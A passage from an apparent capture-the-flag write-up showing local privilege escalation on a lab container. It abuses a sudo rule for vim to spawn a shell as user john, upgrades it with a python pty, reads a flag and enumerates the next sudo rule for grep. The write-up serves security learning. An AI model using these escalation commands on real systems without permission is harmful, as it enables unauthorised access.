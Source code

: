 Here we can exploit the `vim` binary to escalate privileges and gain access as the `john` user, as outlined in [GTFOBins]((https://gtfobins.github.io/gtfobins/vim/))

```bash
$ sudo -l
Matching Defaults entries for www-data on 15b18bf5f8ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 15b18bf5f8ec:
    (john) NOPASSWD: /bin/vim

$ sudo -u john /bin/vim -c ':!/bin/sh'

:!/bin/sh
whoami
john
id
uid=1000(john) gid=1000(john) groups=1000(john),33(www-data)

```

Let's upgrade to an interactive TTY shell using `python`.

```bash
which python
/usr/bin/python3

python3 -c 'import pty; pty.spawn("/bin/bash")'

Low_Priv Shell $:
```

We can find our first flag in `/home/john/flag_1.txt`

```bash
Low_Priv Shell $:cat fl4g-1.txt
cat flag_1.txt
3ba54cbe7f{REDACTED}
Low_Priv Shell $:

```

When checking `john`'s sudo privileges, we discover another user named `david`.

```bash
Low_Priv Shell $:sudo -l
sudo -l
Matching Defaults entries for john on 15b18bf5f8ec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on 15b18bf5f8ec:
    (david) NOPASSWD: /bin/grep

```
